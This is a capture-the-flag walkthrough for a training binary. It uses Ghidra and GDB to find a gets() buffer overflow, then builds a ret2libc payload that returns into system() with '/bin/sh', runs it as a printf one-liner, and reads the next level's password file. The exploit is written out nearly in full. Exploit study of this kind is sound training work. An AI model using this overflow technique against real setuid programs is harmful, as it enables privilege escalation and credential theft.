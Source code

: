 # Level 2 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level2@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level3 users 5138 Mar  6  2016 level2
	```

3. **Test the binary**

	```bash
	./level2
	```

	It waits for input, echoes the input, and exits..


4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level2@<vm-ip>:/home/user/level2/level2 .
	```

5. **Disassemble and inspect with Ghidra**
	The vulnerable function:

	```c
	void p() {
		char buffer[76];
		gets(buffer);			// vulnerable
		...
		strdup(buffer);			// return value used later
	}
	```

6. **Inspect in GDB step-by-step**

	Launch and break at `main`:

	```bash
	gdb level2
	(gdb) b main
	(gdb) run
	```

	Break inside vulnerable function `p()`:

	```gdb
	(gdb) b p
	(gdb) c
	```

	Set a breakpoint just after `strdup()`:

	```gdb
	(gdb) disas
	(gdb) b *0x0804853d
	(gdb) c
	```

	Input `/bin/sh` when prompted:

	```
	/bin/sh
	```

	Confirm `strdup()` returned `/bin/sh` string:

	```gdb
	(gdb) p (char*)$eax
	$3 = 0x0804a008 "/bin/sh"
	```

	This confirms the memory address to pass to `system()`.

	Also found:

	* `system()` address: `0xb7e6b060`
	* `exit()` address:	`0xb7e5ebe0`
	* Address after `strdup()`: `0x0804a008` (returns `/bin/sh`)

7. **Construct the payload**

	Total buffer size:

	* 76 bytes (buffer)
	* +4 bytes (saved EBP)
	* Total = 80 bytes before return address.

	Final payload structure:

	| Component     | Bytes | Purpose                                     |
	| ------------- | ----- | ------------------------------------------- |
	| `/bin/sh\x00` | 8     | String to be duplicated via `strdup()`      |
	| `"A" * 72`    | 72    | Fills buffer up to saved EBP                |
	| `0x0804853e`  | 4     | Return to instruction *after* `strdup()`    |
	| `0xb7e6b060`  | 4     | Address of `system()`                       |
	| `0xb7e5ebe0`  | 4     | Address of `exit()`                         |
	| `0x0804a008`  | 4     | Pointer to `/bin/sh` (return from `strdup`) |

8. **Execute the exploit**

	```bash
	(printf "/bin/sh\x00"; printf 'A%.0s' {1..72}; \
	printf '\x3e\x85\x04\x08\x60\xb0\xe6\xb7\xe0\xeb\xe5\xb7\x08\xa0\x04\x08'; cat) | ./level2
	```

9. **Read the password**

	```bash
	whoami
	cat /home/user/level3/.pass
	```

	Output:

	```
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
	```
